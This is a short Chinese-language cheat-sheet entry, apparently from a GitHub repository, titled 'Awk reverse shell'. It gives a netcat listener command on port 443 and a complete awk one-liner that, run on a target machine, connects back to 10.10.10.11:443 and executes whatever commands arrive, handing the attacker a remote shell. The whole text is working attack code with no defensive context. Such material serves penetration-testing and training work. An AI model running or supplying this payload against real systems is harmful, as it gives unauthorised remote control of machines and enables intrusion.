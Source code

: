 # Awk反弹shell

首先在本地监听TCP协议443端口

```bash
nc -lvp 443

```

然后在靶机上执行如下命令：

```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.11/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

```

